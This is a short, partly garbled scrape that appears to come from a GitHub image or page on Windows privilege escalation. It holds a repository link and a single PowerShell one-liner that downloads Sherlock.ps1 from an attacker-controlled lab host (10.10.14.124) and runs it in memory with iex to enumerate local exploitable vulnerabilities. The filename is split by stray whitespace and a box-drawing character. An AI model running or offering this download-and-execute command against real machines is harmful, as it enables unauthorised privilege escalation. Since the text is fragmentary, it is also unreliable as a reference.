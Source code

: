 https://github.com/frizb/Windows-Privilege-Escalation
#
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8111/Sherlock.p                                                                                                                     │s1'); Find-AllVulns
